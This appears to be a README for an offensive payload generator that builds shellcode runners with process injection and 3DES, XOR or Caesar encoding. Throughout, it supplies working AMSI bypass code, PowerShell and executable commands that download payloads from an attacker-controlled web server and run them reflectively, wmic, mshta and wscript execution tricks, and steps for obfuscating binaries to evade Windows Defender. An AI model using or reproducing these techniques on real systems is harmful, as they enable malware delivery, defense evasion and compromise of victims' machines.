 # Description

## Usage

### Static Variables 
| Variables | Description |
| --- | --- |
| PROCESS_TO_INJECT | Contains the process names that you want to inject into|
| MSFVENOM_PAYLOAD | MSF Payload |
| LHOST | Listener IP |
| LPORT | Listener Port | 

### Payload prefixes
| Name | Description |
| --- | --- |
| _embedded | If the generated payload contains the word **embedded** then the **shellcode** is located inside the generated executable. |
| _marshal | If the generated payload contains the word **marshal** then payload will be injected to executable's memory space. |
| _numa | If the generated payload contains the word **numa** then **VirtualAllocExNuma** was used insetad of **VirtualAllocEx** |
| _FlsAlloc | If the generated payload contains the word **FlsAlloc** then **FlsAlloc** API was used. |

#### Example
When payload is generated with name shellcode_runner_assembly_FlsAlloc_marshal.exe, it means:
- FlsAlloc API was used
- The Shellcode will be injected to executable's address space (Not to a remote process).
--
### Payload execution

**[+] Triple DES [+]**

The 3DES payloads are located under payloads/3DES/ directory. There are two payloads and need to be executed diferrently. 

#### Method 1
The executable **des_decryptor.exe** is downloading the file from your Web server and executes it reflectively.
```cmd> des_decryptor.exe http://KALI_IP/<SHELLCODE_RUNNER>```

#### Method 2
The executable embedds a shellcode runner. You can run it without providing any commands. 
```cmd> des_decryptor_embedded.exe```

----

#### [+] AMSI Bypass [+]
There are two methods to bypass AMSI:
- Patching 
- Unhooking

##### Method 1
Patching template is what Offensive-Security teaches in OSEP with some small changes. The execution of 1st method (Patching) is straight forward and uses well-known methodologies.

```
$m="System.Management.Automation.Ams";[Ref].Assembly.GetType("$m"+"iUtils").GetField('amsiInitFai'+'led','NonPublic,Static').SetValue($null,$true)
```

```
# XOR RAX,RAX 
$buf = [Byte[]] (0x48,0x31,0xC0)  
```

**Execute AMSI Shellcode runner**
``` 
powershell -nop -exec bypass -c IEX((New-Object Net.WebClient).DownloadString('http://<IP>/shellcode_runner.html')); 
``` 

##### Method 2
To unhook AMSI, I've used the project by jfmaes - AmsiHooker (https://github.com/jfmaes/AmsiHooker) and I permfored some small changes. When AmsiHooker executable will launched, it will download the Shellcode Runner from your web server and it will reflectively execute it.

**Steps**
1. Upload unhook_amsi.exe and MinHook.NET.dll to victim. (Files located under payloads/AMSI/)
2. unhook_amsi.exe http://<KALI>/shellcode_runner.exe

---

#### [+] Executing .XSL, .JS, .HTA [+]

Under directory payloads/DotNetToJScript/, you find three shellcode ruuners that generated with DotNetToJScript (https://github.com/tyranid/DotNetToJScript). 

**Executing .XSL shellcode runner**
```
wmic process list /FORMAT:evil.xsl
wmic os get /FORMAT:"https://example.com/evil.xsl"
```

**Executing .HTA shellcode runner**
```
mshta c:\users\public\shellcode_runner.hta
```

**Executing .JS shellcode runner**
```
wscript c:\users\public\shellcode_runner.js
```

More execution methods can be found:
- https://lolbas-project.github.io/


#### [+] ConfuserX + Net-Obfuscator [+]

During my tests, I noticed that Windows Defender could detect payloads genereted by ConfuserEx (https://github.com/yck1509/ConfuserEx). For this reason, I combined ConfuserEx + Net-Obfuscator (https://github.com/BinaryScary/NET-Obfuscate). 

First, payloads that are located under payloads/XOR/ and payloads/Caesar/ directories, feed the ConfuserEx tool and subsequently the new obfuscated binaries are imported to Net-Obfuscator. As a result, the GetType and GetMethod values are obfuscated and  dynamically created.

**Example 1** - Execution of 'payloads/Caesar/shellcode_runner_assembly_numa.exe' Reflectively.
```
[+] Creating DLL/EXE file (ConfuserEx + .NET Obfuscator) ...

 [!] Obfuscating CAESAR -> shellcode_runner_assembly_numa.exe
 [*] PS>$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/shellcode_runner.exe|dll')
 [*] PS>$ass=[System.Reflection.Assembly]::Load($data)
 [*] PS>$ass.GetType("J46IIOTXPW.PZAZUJAD4V").GetMethod("NK6WAROB2W").Invoke($null,$null)
```
